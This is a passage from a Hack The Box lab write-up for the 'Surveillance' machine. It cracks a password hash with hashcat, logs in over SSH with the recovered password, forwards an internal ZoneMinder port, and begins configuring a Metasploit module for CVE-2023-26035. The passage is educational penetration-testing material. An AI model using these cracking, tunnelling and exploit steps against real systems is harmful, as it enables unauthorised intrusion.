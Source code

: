 ```markdown
[+] Haval-256 
[+] GOST R 34.11-94 
[+] GOST CryptoPro S-Box 
[+] SHA3-256 
[+] Skein-256 
[+] Skein-512(256)
```
This can be cracked with `hashcat`
```markdown
hashcat -m 1400 -a 0 -d 1 hash.txt .\rockyou.txt
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```
Finally, just SSH in as `matthew`, using password `starcraft122490`
```markdown
ssh matthew@surveillance.htb
```

PHASE 3: Root
Begin from an SSH shell for user `matthew` and list local open connections.
```markdown
netstat -lnput
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```
Forward internal port 8080 to kali 8085 and browse the site with Firefox.
```markdwon
ssh -f -N -L 8085:127.0.0.1:8080 matthew@surveillance.htb
```
It seems a ZoneMinder server is running on host's port 8080. A login portal appears.

![surveillance2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/e62f9973-2e7d-417c-a80f-c9ba54c31a28)

Looking for ZoneMinder vulnerabilities, we discover this one https://www.cvedetails.com/cve/CVE-2023-26035/<br>
<br>
We also search for a POC, but nothing useful is found. However, we find a recently published Metasploit module https://www.rapid7.com/blog/post/2023/11/17/metasploit-weekly-wrap-up-36/<br>
<br>
You may need to update your framework to install this module, since it has been published very recently.
```markdown
sudo apt install -y --only-upgrade metasploit-framework
```
Once installed, just start the framework, load the module and configure it properly. For this, remember that, with the local port forwarding in place, now the victim's 8080 port is accessible from kali's localhost:8085.
```markdown
use unix/webapp/zoneminder_snapshots
set rhosts 0.0.0.0
set rport 8085
```